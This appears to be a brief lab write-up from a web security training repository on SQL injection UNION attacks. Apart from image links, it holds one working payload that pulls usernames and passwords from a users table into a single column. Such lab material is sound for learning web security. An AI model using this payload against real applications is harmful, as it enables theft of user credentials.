 # SQL injection UNION attack, retrieving multiple values in a single column

## Lab Description

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/eedf783c-bf99-4d8a-bd2d-58016006683e)

# Solution

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/ff63c12a-d95b-47f3-af52-f5f315fc1492)

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/92579d67-144f-4a4d-9979-b920629927e0)

'+UNION+SELECT+NULL,username||'~'||password+FROM+users--

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/2eec120e-e2ee-4156-a395-6de7c4955504)
